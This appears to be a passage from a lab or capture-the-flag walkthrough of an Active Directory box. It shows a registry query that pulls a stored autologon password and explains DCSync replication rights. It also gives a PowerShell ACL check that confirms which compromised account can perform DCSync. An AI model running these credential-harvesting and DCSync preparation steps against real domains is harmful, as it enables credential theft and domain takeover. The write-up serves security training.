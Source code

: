 `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon
    <SNIP>
    DefaultDomainName    REG_SZ    EGOTISTICALBANK
    DefaultUserName    REG_SZ    EGOTISTICALBANK\svc_loanmanager
    <SNIP>
    DefaultPassword    REG_SZ    Moneymakestheworldgoround!
```

## DCSync

Many Active Directory (AD) infrastructure has multiple Domain Controllers. To maintain a consistent environment, you need a way to replicate AD objects for each DC. The replication is done through an API (DRSUAPI).

In a DCSync attack, we impersonate a Domain Controller to replicate objects.

However, to perform a DCSync attack, the compromised account needs to have the following replication permissions:

The “DS-Replication-Get-Changes” extended right
* CN: DS-Replication-Get-Changes
* GUID: 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2

The “Replicating Directory Changes All” extended right
* CN: DS-Replication-Get-Changes-All
* GUID: 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2

The “Replicating Directory Changes In Filtered Set” extended right (not always needed)
* CN: DS-Replication-Get-Changes-In-Filtered-Set
* GUID: 89e95b76-444d-4c62-991a-0facbeda640c

### Checking Active Directory Permissions

We have compromised two accounts: fsmith and svc_loanmgr. Let's check if any of them has the required permissions for a DCSync attack.

We need the ActiveDirectory module for the following command.

`Import-Module ActiveDirectory`

The part before the `|` gets specific access permissions of objects in the stated domain. The part after filters the output to show only the permissions that we are interested in. (i.e. the permissions that enable a DCsync attack.)

`(Get-ACL "AD:dc=EGOTISTICAL-BANK,dc=LOCAL").access | Where-Object {($_.ObjectType -eq "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "89e95b76-444d-4c62-991a-0facbeda640c" )}`

The results show that svc_loanmgr has the required permissions.

```
<SNIP>
ActiveDirectoryRights : ExtendedRight
InheritanceType       : None
ObjectType            : 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : ObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : EGOTISTICALBANK\svc_loanmgr
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None

ActiveDirectoryRights : ExtendedRight
InheritanceType       : None
ObjectType            : 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
```